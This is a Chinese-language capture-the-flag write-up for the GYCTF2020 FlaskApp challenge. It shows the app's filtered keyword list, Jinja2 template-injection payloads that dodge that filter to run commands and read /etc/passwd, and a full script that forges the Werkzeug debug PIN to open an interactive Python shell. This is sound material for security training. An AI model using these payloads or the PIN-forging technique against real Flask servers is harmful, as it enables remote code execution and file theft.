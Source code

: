 # \[GYCTF2020]FlaskApp

## \[GYCTF2020]FlaskApp <a href="#2155852200" id="2155852200"></a>

## 考点

* Flask debug模式
* Flask SSTI绕过
* Flask PIN值

## wp

进行解码测试的时候发现会报错进入debug页面，然后可以看到一部分代码

![](../../.gitbook/assets/pi8ZT4Kba6xALdO.png)

这部分代码说明存在 SSTI，并且需要绕过 `waf()` 函数，测试了一下，过滤的内容如下

```
b'request'
b'__import__'
b'eval'
b'popen'
b'system'
b'flag'
b'*'
b'import'
```

试着发现好像把命令执行的函数都给 ban 了

### 非预期

尝试使用字符串拼接来绕过对这些函数的限制

```bash
{{''.__class__.__base__.__subclasses__()[131].__init__.__globals__['__builtins__']['ev'+'al']('__im'+'port__("o'+'s").po'+'pen("cat /this_is_the_fl'+'ag.txt")').read()}}
```

### 预期

先读取文件试试

payload : `{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}`&#x20;

转成base64输入

![](../../.gitbook/assets/qCSQYk76jUBGe1Z.png)

这里就有个任意文件读取。

在debug页面可以通过输入pin码打开python shell

生成PIN的关键值有如下几个

* 服务器运行 flask 所登录的用户名。 通过 /etc/passwd 中可以猜测为 flaskweb 或者 root ，此处用的flaskweb
* modname 一般不变就是 flask.app
* `getattr(app, "__name__", app.__class__.__name__)` python 该值一般为 Flask，值一般不变
* flask 库下 app.py 的绝对路径，通过报错信息就会泄露该值。本题为 `/usr/local/lib/python3.7/site-packages/flask/app.py`
* 当前网络的 mac 地址的十进制数。通过文件 `/sys/class/net/eth0/address` 获取，本题为 `02:42:ae:01:54:15`
* 最后一个就是机器的 id 对于非 docker 机每一个机器都会有自已唯一的 id ，linux的 id 一般存放在 `/etc/machine-id` 或 `/proc/sys/kernel/random/boot_i`，有的系统没有这两个文件，windows 的 `id` 获取跟 `linux` 也不同。对于 `docker` 机则读取 `/proc/self/cgroup` 本题为 `201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201`

接下来就是获取 PIN 值，计算PIN值的关键代码在 `Lib\site-packages\werkzeug\debug\__init__.py`

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.7/site-packages/flask/app.py',
]

private_bits = [
    # mac 地址的十进制数
    '2485410419733',
    # 机器的 id 
    '201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

得到结果 `676-092-706`

然后选择右侧 shell 图标

![](../../.gitbook/assets/sXHONA7JYVdDtRi.png)

输入 PIN 值

![](<../../.gitbook/assets/image (2) (1) (1).png>)

![](<../../.gitbook/assets/image (34) (1) (1) (1) (1) (1) (1).png>)

这里执行 `os.system('ls /')` 返回为 `0`，是因为这个命令虽然执行了，但是没有获取执行的结果，即 os.system 仅仅在一个子终端运行系统命令，而不能获取命令执行后的返回信息
